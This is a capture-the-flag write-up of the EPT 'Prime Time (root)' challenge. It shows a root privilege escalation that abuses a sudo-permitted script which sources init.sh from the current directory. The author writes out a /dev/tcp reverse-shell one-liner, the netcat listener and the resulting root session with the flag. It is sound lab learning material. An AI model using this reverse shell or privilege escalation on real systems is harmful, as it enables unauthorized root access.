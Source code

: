 # Writeup
by fluffyhake

## Solution
By running a existing script called `hmadmin.sh` with a custom `init.sh` script we can execute any command as root. By doing this, we can open a reverse shell as root and locate the flag in the root home directory.

### Example
Target:
```
[prime@ip-10-128-2-180 ~]$ echo 'sh -i >& /dev/tcp/10.128.2.186/9001 0>&1' > /home/activemq/init.sh
[prime@ip-10-128-2-180 ~]$ sudo /opt/CSCOlumos/rcmds/hmadmin.sh  
sudo /opt/CSCOlumos/rcmds/hmadmin.sh  

```
Host listening for reverse shell:
```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.128.2.186] from (UNKNOWN) [10.128.2.180] 33236
sh-4.2# whoami
whoami
root

sh-4.2# cd
cd

sh-4.2# cat root.txt
cat root.txt
EPT{5b2f8f8681b6621b519ef09adf371174}
```



## Explanation
***Notice**: We did not manage to complete this challenge before the CTF finished. Huge shoutout to **loevland** who pointed us in the [right direction](https://discordapp.com/channels/888378227679195147/888388640550576128/1302357247527096371) after the CTF.*


This challenge is the continuation of Prime Time (user). In Prime Time (user) we get a reverse shell using a exploit in Apache ActiveMQ. 

After the initial exploit, we started to read about privilege escalation techniques. This lead us to try the `sudo -l` command.

We see that our user is permitted to run scripts in `/opt/CSCOlumos/rcmds/` as sudo.

```
[prime@ip-10-128-2-180 /]$ sudo -l
sudo -l
Matching Defaults entries for prime on ip-10-128-2-180:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User prime may run the following commands on ip-10-128-2-180:
    (ALL) SETENV: NOPASSWD: /opt/CSCOlumos/rcmds/
```

We poked around in this directory and actually looked at the script which could be used for exploitation (`hmadmin.sh`). But we did not manage to get further due to time. Thankfully, the infra is still up after the CTF (🙌🫶), so we can continue this challenge.

Looking through the scripts in `/opt/CSCOlumos/rcmds/`, we find `hmadmin.sh`, which looks like this:
```
[prime@ip-10-128-2-180 rcmds]$ cat hmadmin.sh
#!/bin/bash
. init.sh

$INSTALL_HOME/bin/hmadmin.sh

```

It executes `init.sh`, but does not do anything to restrict what folder we read `init.sh` from. 
Knowing this, we can create our own `init.sh` script in our home folder and run whatever we want as root.

We used [revshells.com](https://www.revshells.com/) to create a reverse shell command to put in `init.sh`. In addition, we used netcat on our EPT BOX to listen for a shell.

*Creating the init.sh file to open a reverse shell as root. `10.128.2.186` is the host we listen on*
```
[prime@ip-10-128-2-180 rcmds]$ echo 'sh -i >& /dev/tcp/10.128.2.186/9001 0>&1' > /home/activemq/init.sh
```
*Listening for the shell on our EPT BOX*
```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
```

Let's execute the payload by changing into our home folder with the custom `init.sh` script and running `/opt/CSCOlumos/rcmds/hmadmin.sh`
```
[prime@ip-10-128-2-180 rcmds]$ cd 
cd /home/activemq/
[prime@ip-10-128-2-180 ~]$ sudo /opt/CSCOlumos/rcmds/hmadmin.sh  
sudo /opt/CSCOlumos/rcmds/hmadmin.sh  


```
`hmadmin.sh` just read our local, custom, init.sh script and not the one in `/opt/CSCOlumos/rcmds/`!

We now see a shell connecting to our socket! 🎉
```
listening on [any] 9001 ...
connect to [10.128.2.186] from (UNKNOWN) [10.128.2.180] 33236
sh-4.2# whoami
whoami
root
```

We find a file called `root.txt` in root's home folder. It contains the flag. 
```
sh-4.2# ls
ls
init.sh
user.txt
sh-4.2# cd
cd
sh-4.2# ls
ls
root.txt
sh-4.2# cat root.txt
cat root.txt
EPT{5b2f8f8681b6621b519ef09adf371174}
```

This was our first time doing reverse shells and privilege escalation to pwn a server. Thanks to the EPT-team for this new experience and a fun challenge!